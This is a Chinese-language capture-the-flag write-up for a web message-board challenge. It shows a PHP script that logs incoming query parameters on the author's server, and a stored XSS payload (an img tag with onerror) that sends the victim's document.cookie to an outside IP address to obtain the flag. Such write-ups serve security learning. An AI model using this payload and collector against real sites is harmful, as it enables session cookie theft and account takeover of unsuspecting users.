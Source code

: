 ### **MessageBox**

经典的web留言板

从源码分析可以得出，只有luo用户的cookie中才具有真正的flag

而留言板可以看到自己发出的，也可看到别人发给自己的

初步猜测是XSS漏洞

我在自己的服务器上创建了两个文件便于靶机外带cookie

一个是test1.php，另一个是空的data.txt

```
<?php
$file = 'data.txt';

// 写入文件
if (!empty($_GET)) {
    $params = http_build_query($_GET);
    $escaped_params = htmlspecialchars($params, ENT_QUOTES, 'UTF-8');
    file_put_contents($file, $escaped_params . "\n", FILE_APPEND);
}

// 读取并显示文件内容
if (file_exists($file)) {
    echo nl2br(file_get_contents($file));
} else {
    echo "没有提供任何参数";
}
?>
```

然后将以下信息发给luo

```
<img src=x onerror=this.src='http://49.235.164.104/test1.php?c='+document.cookie>
```

稍等一会，xss反弹回来就得到了真正的flag

![](./images/image-152.png)
